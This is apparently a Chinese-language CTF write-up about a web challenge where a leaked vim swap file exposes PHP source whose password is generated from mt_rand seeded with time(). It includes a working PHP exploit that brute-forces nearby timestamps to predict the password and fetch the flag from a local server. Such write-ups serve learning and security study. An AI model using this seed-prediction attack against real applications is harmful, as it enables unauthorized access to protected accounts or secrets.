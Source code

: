 ```yaml
---
title: 随机数mt_srand--被sublime控制台坑惨了
date: 2017-12-08 00:00:00
categories:
- CTF/Web
tags: 湖湘杯复赛 不可见字符
---
```


## 解题过程

### 目录源码

我和李岩都没发现，最后看wp是
`.index.php.swp`注意前面的那个“点”，忘了是隐藏文件的可能性，长记性！！！得到源码。

```php
<?php
error_reporting(0); // 关闭报错，error_reporting(E_ALL)报告所有的错误和警告
$flag = "xxxxxxxxxxxxxxxx";
echo "please input a rand_num !";
function create_password($pw_length =  10){
	$randpwd = "";
	for ($i = 0; $i < $pw_length; $i++){
		$randpwd .= chr(mt_rand(100, 200));
	}
	return $randpwd;
}

session_start();

mt_srand(time());

$pwd=create_password();

echo $pwd.'||';    
if($pwd == $_GET['pwd']){
    echo "first";
    if($_SESSION['userLogin']==$_GET['login'])
    	echo "Nice , you get the flag it is ".$flag ;
}else{
	echo "Wrong!";
}

$_SESSION['userLogin']=create_password(32).rand();

?>
```

### 分析

- 观察到`mt_srand()`函数与`mt_rand()`函数组合，参数是时间戳，可知这个随机数是可以被预测的，当随机数的种子定下后，随机数便以一个固定的序列出现。
- 打印`flag`要过两个判断，第一个是`pwd`由`chr(mt_rand(100, 200))`循环十次生成，第二个`login`的赋值在判断之后，所以为空。只需提交`pwd`即可。

### sublime输出字符问题

#### 可打印ascii字符

一开始拿sublime调试了好久发现连`echo $pwd.'||';`中的||都不输出，才发现又是字符的问题！！！


```php
$randpwd .= chr(mt_rand(100, 200)); //可打印的ascii码在32-126之间
```

> sublime控制台什么都打不出来，即使在100-126之间字符在这里因为后续超过127的字符可能被当做delete字符然后把前面打出来的都删掉了（存疑）

平日都是控制台打印payload，然后拿着这一堆送到浏览器里或者hackbar再或者burp里，但是你现在打不出来啊，这可怎么办？？？

#### 解决办法

- 不用sublime控制台输出，用本地服务器运行然后浏览解释输出就行了，于是可以看到正常输出，就是一堆乱码。
- 让`$pwd`这个变量不跑出php，直接在php里利用，然后访问网页，通过`file_get_contents()`函数，参数里放url就好了。

### exp

```php
<?php
function create_password($pw_length =  10){
	$randpwd = "";
	for ($i = 0; $i < $pw_length; $i++){
		$randpwd .= chr(mt_rand(100, 200));
	}
	return $randpwd;
}

// 这里的循环参数直接用时间戳的上下浮动作为循环变量，比较巧妙
for($i=time()-10;$i<time()+10;$i++)
{
	mt_srand($i);
	$pwd=create_password();
	$result=file_get_contents("http://127.0.0.1/index.php?pwd=$pwd&login=");
	echo $result.'<br>';
}
?>
```

同样不要用控制台运行，否则可能看不到结果。

## 知识小结

- 花式源码泄漏 `.index.php.swp`
- ascii可打印字符范围
- 字符集的显示
- `mt_srand()`与`mt_rand()`的随机数预测
- `$_SESSION[]`初始化的先后顺序